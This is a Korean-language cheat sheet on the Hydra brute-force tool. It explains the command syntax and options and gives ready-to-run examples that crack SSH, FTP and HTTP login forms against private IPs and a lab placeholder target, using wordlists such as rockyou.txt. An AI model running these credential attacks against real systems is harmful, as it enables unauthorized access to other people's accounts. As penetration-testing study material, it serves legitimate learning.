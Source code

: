 # hydra 사용법 정리

## 개요

Hydra는 다양한 프로토콜(ssh, ftp, http 등)에 대해 빠른 무차별 대입(brute-force) 공격을 지원하는 도구다. 주로 패스워드 크래킹, 인증 우회 테스트에 활용된다.

---

## 기본 명령어 구조

```bash
hydra [옵션] -l <사용자명> -P <패스워드리스트> <타겟> <서비스>
```

- `-l <사용자명>` : 단일 사용자명 지정
- `-L <사용자명파일>` : 사용자명 리스트 파일 지정
- `-p <패스워드>` : 단일 패스워드 지정
- `-P <패스워드리스트>` : 패스워드 리스트 파일 지정
- `<타겟>` : 공격 대상 IP 또는 도메인
- `<서비스>` : ssh, ftp, http-get 등 서비스명

---

## 자주 쓰는 예시

### 1. SSH 브루트포스

```bash
hydra -l root -P rockyou.txt 192.168.0.10 ssh
```

- root 계정에 대해 rockyou.txt의 패스워드로 시도

### 2. 여러 사용자명, 패스워드 조합

```bash
hydra -L users.txt -P passwords.txt 10.10.10.10 ftp
```

- users.txt의 모든 사용자와 passwords.txt의 모든 패스워드 조합 시도

### 3. 특정 포트 지정

```bash
hydra -l admin -P pass.txt -s 2222 192.168.1.5 ssh

```

- 2222 포트의 ssh 서비스에 대해 시도

### 4. HTTP POST 로그인 크래킹

```bash
hydra -L users.txt -P pass.txt 192.168.1.100 http-post-form \
"/login.php:user=^USER^&pass=^PASS^:F=로그인실패문구"

hydra -l molly -P rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

- 로그인 실패시 출력되는 문구(F=)를 정확히 지정해야 함

---

## 주요 옵션

- `-t <동시스레드수>` : 병렬 연결 수(기본 16, 속도 조절)
- `-V` : 시도하는 ID/PW 조합을 모두 출력
- `-f` : 첫 성공 시도 후 종료
- `-o <파일명>` : 결과를 파일로 저장
- `-s <포트번호>` : 포트 지정
- `-e nsr` : 빈 패스워드(n), 사용자명=패스워드(s), 역순(r)도 시도
- `-u` : 사용자별로 패스워드 리스트를 모두 시도 후 다음 사용자로
- `-w <초>` : 타임아웃 지정

---

## 참고

- 서비스별로 입력 포맷이 다를 수 있으니, `hydra -U`로 지원 서비스와 예시 확인 가능
- 너무 많은 요청은 차단될 수 있으니, 속도(-t) 조절 필요
- 결과는 항상 수동으로 검증할 것
